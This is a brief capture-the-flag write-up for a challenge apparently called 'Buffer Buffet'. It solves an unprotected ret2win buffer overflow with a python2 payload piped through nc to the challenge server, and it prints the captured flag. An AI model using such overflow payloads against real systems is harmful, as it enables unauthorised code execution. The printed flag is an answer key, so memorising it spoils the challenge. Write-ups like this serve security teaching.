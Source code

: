 # Buffer Buffet

## Analysis
Easy ret2win challenge without any protections

## Solution
Got the address of the `secretFunction` and offset for the buffer using gdb.
Used python2 to send the payload to the remote directly.
```
└─$ python2 -c "print b'a'*408 + b'\xd6\x11\x40'" | nc 34.125.199.248 4056
Enter some text:
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�@
Congratulations!
Flag: OSCTF{buff3r_buff3t_w4s_e4sy!}
```

## Flag
```
OSCTF{buff3r_buff3t_w4s_e4sy!}
```
